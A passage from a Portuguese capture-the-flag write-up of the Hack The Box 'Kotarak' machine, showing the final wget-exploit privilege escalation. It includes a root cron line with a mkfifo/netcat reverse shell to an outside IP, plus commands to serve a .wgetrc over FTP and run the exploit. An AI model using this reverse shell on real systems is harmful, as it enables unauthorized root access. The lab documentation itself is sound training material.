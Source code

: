 O que foi mudado?

```
HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.10.55'
FTP_PORT = 21
```

E, logicamente o ROOT_CRON

`ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.126 8888 >/tmp/f \n"`

3º Passo - Agora iremos abrir um servidor FTP na porta 21 que irá disponbilizar o arquivo `.wgetrc`

Que porra é essa de `authbind`? Ele serve para executarmos comandos em portas baixas, que por padrão somente o root pode executar, é uma carta na manga!

`authbind python -m pyftpdlib -p21 -w`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_r1.png)

4º Passo - Execução do exploit

Bom, agora é só executar o exploit

`authbind python wget_exploit.py`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_r2.png)

Esperamos e conseguimos o shell, isso demora um bocado pois até o servidor processar todo a comunicação, modificar a executar a cron, leva um certo tempo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_r3.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_r4.png)

## Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_user.png)